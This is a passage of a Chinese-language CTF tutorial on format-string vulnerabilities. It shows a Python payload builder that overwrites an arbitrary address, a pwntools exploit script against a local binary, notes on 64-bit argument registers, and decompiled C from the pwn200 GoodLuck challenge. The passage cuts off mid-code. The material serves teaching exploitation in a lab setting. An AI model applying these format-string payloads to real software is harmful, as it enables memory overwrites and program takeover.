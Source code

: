 ```
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload
payload = fmt_str(6,4,0x0804A028,0x12345678)
```

其中每个参数的含义基本如下

- offset 表示要覆盖的地址最初的偏移
- size 表示机器字长
- addr 表示将要覆盖的地址。
- target 表示我们要覆盖为的目的变量值。

相应的 exploit 如下

```
def forb():
    sh = process('./overwrite')
    payload = fmt_str(6, 4, 0x0804A028, 0x12345678)
    print payload
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()
```





### 例题实例分析



**64位程序格式化字符串漏洞**

原理

其实 64 位的偏移计算和 32 位类似，都是算对应的参数。只不过 64 位函数的前 6 个参数是存储在相应的寄存器中的。那么在格式化字符串漏洞中呢？虽然我们并没有向相应寄存器中放入数据，但是程序依旧会按照格式化字符串的相应格式对其进行解析。

**前6个参数为寄存器 edi、esi、edx、ecx、r8d、r9d**



题目： [pwn200 GoodLuck](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/2017-UIUCTF-pwn200-GoodLuck)

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+3h] [rbp-3Dh]
  signed int i; // [rsp+4h] [rbp-3Ch]
  signed int j; // [rsp+4h] [rbp-3Ch]
  char *format; // [rsp+8h] [rbp-38h]
  _IO_FILE *fp; // [rsp+10h] [rbp-30h]
  char *v9; // [rsp+18h] [rbp-28h]
  char v10[24]; // [rsp+20h] [rbp-20h]
  unsigned __int64 v11; // [rsp+38h] [rbp-8h]

  v11 = __readfsqword(0x28u);
  fp = fopen("flag.txt", "r");
  for ( i = 0; i <= 21; ++i )
    v10[i] = _IO_getc(fp);
  fclose(fp);
  v9 = v10;
  puts("what's the flag");
  fflush(_bss_start);
  format = 0LL;
  __isoc99_scanf("%ms", &format);
  for ( j = 0; j <= 21; ++j )   #逐个做字符串对比，v10为flag 字符串
  {
```